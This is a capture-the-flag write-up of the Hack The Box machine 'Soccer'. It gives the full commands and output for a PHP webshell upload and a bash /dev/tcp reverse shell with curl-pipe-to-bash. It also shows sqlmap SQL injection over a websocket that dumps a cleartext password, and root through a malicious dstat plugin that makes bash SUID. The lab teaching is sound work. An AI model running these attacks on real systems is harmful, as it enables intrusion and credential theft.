





# Summary
[Soccer](https://app.hackthebox.com/machines/Soccer) starts with a simple website that is managed with Tiny File Manager. The default credentials can be used to log on. I then uploaded a php webshell to the file manager. I then use that webshell to gain a reverse shell as `www-data`. Once on the box, I find another vhost with a second site. This site has an SQL injection vulnerability over a websocket. This SQLi gives me a cleartext password that is reused for the second user on the box. That user is able to run `dstat` as root using `doas`. I exploit `dstat` by creating a malicious plugin to gain root access.
# Nmap
As always I start off with an Nmap scan. I first run a scan with `-p-` to scan all ports and `-v` to reveal open ports as they're found. And then run a script `-sC` and version `-sV` scan on the open ports that were found.
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Soccer - Index 
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 24 Jan 2023 21:22:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 24 Jan 2023 21:22:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I find 3 ports open, SSH on port 22, HTTP running nginx on port 80, and what looks like xmlmail or another interesting HTTP site on port 9091.

# HTTP Port 80
Before I start poking around I get some recon running in the background. I use `feroxbuster` to search for directories.
```bash
┌──(kali㉿Kali)──[14:36:10]──[~/htb/Machines/Soccer]
└─$ feroxbuster -u http://soccer.htb/ -A -n -C 404 


 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://soccer.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      494l     1440w    96128c http://soccer.htb/ground3.jpg
200      GET     2232l     4070w   223875c http://soccer.htb/ground4.jpg
200      GET      711l     4253w   403502c http://soccer.htb/ground2.jpg
200      GET      809l     5093w   490253c http://soccer.htb/ground1.jpg
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
[####################] - 58s    30021/30021   0s      found:6       errors:0      
[####################] - 57s    30000/30000   525/s   http://soccer.htb/ 
```
I find an interesting directory called `/tiny` that leads to a login page for [Tiny File Manager](https://tinyfilemanager.github.io/)



Searching for the default credentials, I find [this page of documentation](https://tinyfilemanager.github.io/docs/#line3) that tells me the default username and password. I try them and get in.



## Shell as www-data
I try to upload files to various locations but get the error *"The specified location isn't writable"*. I find that the only place I upload to is `/tiny/uploads`. 

I write a simple php webshell to a file called `shell.php`:
```php
<?php system($_REQUEST['cmd']); ?>
```




I now have command execution!
```bash
┌──(kali㉿Kali)──[14:47:28]──[~/htb/Machines/Soccer]
└─$ curl -X POST http://soccer.htb/tiny/uploads/shell.php -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Executing a reverse shell directly from the webshell doesnt work. Instead I host a shell on my python server, and access it from the victim machine and pipe it into bash.
```bash
# Write reverse shell to a file
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' > shell.sh

# Host shell on my webserver
┌──(kali㉿Kali)──[14:50:39]──[~/htb/Machines/Soccer/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# Start netcat listener
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ nc -lvnp 9001                                              
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001

# Use the webshell to execute reverse shell
┌──(kali㉿Kali)──[14:51:25]──[~/htb/Machines/Soccer/www]
└─$ curl -X POST http://soccer.htb/tiny/uploads/shell.php -d 'cmd=curl 10.10.14.78/shell.sh|bash'
```
I now have a shell on the box! I use the [python pty trick](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell) to improve my shell
```bash
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ nc -lvnp 9001                                              
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.205.101:36932.

www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty;pty.spawn("bash")'
</uploads$ python3 -c 'import pty;pty.spawn("bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
zsh: suspended  nc -lvnp 9001


┌──(kali㉿Kali)──[14:53:25]──[~/htb/Machines/Soccer/www]
└─$ stty raw -echo; fg 
[1]  + continued  nc -lvnp 9001

www-data@soccer:~/html/tiny/uploads$ stty rows 70 cols 126
www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$ 

```
## SQLi > Shell as Player
Poking around the box, I found a new subdomain `soc-player.soccer.htb` in `/etc/nginx/sites-available/soc-player.htb`. I add this to my `/etc/hosts` file.

This takes me to a similar but new version of the site. There's now a signup and login function that takes me to a new page, `/check`, where I am assigned a ticket number. I can enter my ticket number to see if the ticket is valid and when the soccer game is. 

Intercepting the request in Burpsuite, I see that it does this by establishing a `websocket` connection to `ws://soc-player.soccer.htb:9091`. 

I want to check this function for SQL injection, as it is likely looking up a database on the backend. However, doing SQL injection on websockets can be tricky, as websockets do not have to response to requests the way HTTP does.

There's a [post from Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) about doing SQLi against websockets. They have a python3 script that you can run before using `SQLMap`. In this scenario however, this is not neccessary, because this webcoket is configured to always respond.

I run `SQLMap` against the websocket and find it is vulnerabile to this command. I use the `--batch` flag to automatically provide default answers to all questions:
```bash
┌──(kali㉿Kali)──[15:34:10]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   "https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:34:13 /2024-04-10/

JSON data found in POST body. Do you want to process it? [Y/n/q] 

<...SNIP...>
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 98 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"99912 AND (SELECT 9944 FROM (SELECT(SLEEP(5)))bSLx)"}
---
<...SNIP...>

[*] ending @ 15:36:34 /2024-04-10/

```
The vulnerable method is time-based blind injection. This is generally the slowest method. Because of this, I add the `--threads=10` flag to improve the speed. I enumerate all the databases by adding the `-dbs` flag, which reveals the `soccer_db` database
```bash
┌──(kali㉿Kali)──[15:48:26]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 --dbs             
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:48:35 /2024-04-10/

<...SNIP...>

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

<...SNIP...>
```
I enumerate the tables of the database by using the `-D` flag to specify the database to use, and the `--tables` flag to enumerate all the tables. This reveals just one table, `accounts`
```bash
┌──(kali㉿Kali)──[15:49:16]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db --tables

<...SNIP>

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+

<...SNIP...>
```
I then add th `-T` flag to specify the table to enumerate, and the `--columns` flag to list the columns of the `accounts` table. This reveals the `username` and `password` columns. Bingo.
```bash
┌──(kali㉿Kali)──[15:51:06]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db -T accounts --columns

<...SNIP...>   

Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```
I add the `--dump` flag to dump the `accounts` table from the `soccer_db` database. This gets me a cleartext password for the user `player`.
```bash
┌──(kali㉿Kali)──[15:53:11]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db -T accounts --columns --dump

<...SNIP...>

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```


I was able to use the SQLi vuln to extract a clear text password for `player` this password was reused for `player's` account on the box. From here I run `ssh-keygen` and now have ssh access to player.

Back on the box, I check `/etc/passwd` and see the `player` is the only other user on the box. I try this password and find that the password is reused, and I am able to switch over to the `player` user. I transfer my public SSH key to `player's` `~/.ssh/authorized_keys` file, and I now have SSH access as `player`
## Root Shell
Linpeas reveals that `doas.conf` allows `player` to run `/usr/bin/dstat` as root. After *much* searching, I found [this page](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/) on how to exploit `dstat`. `Dstat` has the capabilties to run plugins, which are in the form of little python scripts. I can actually write my own python script that will then be run by `dstat` and since `dstat` is run with `doas -u root`, I can run commands as root.

`Dstat` looks for plugins in 2 locations, `/usr/share/dstat` and `usr/local/share/dstat`. All the current plugins were in the `/usr/share/dstat` location, which I could not write to. However Dstat does actually check both locations and I could write to `/usr/local/share/dstat`. So I wrote a python script to make `/usr/bin/bash` an SUID binary and then ran `/usr/bin/bash -p` to give me a root shell! `Doas` threw a bunch of errors but it worked! There is a cron script running that will clear `/usr/local/share/dstat` so you have to do this kind of fast.
```bash
cd /usr/local/share/dstat
vim dstat_exploit.py
```
```python
#! /usr/bin/python3

import os

os.system('chmod +s /usr/bin/bash')
```
```bash
doas -u root /usr/bin/dstat --list | grep exploit # Check that malicious plugin is present. Plugins are identified with the syntax dstat_<PLUGIN NAME>.py
doas -u root /usr/bin/dstat --exploit # This threw a few error codes but nevertheless worked
ls -la /usr/bin/bash # Checking that it's now an SUID binary
/usr/bin/bash -p # Become Root!
```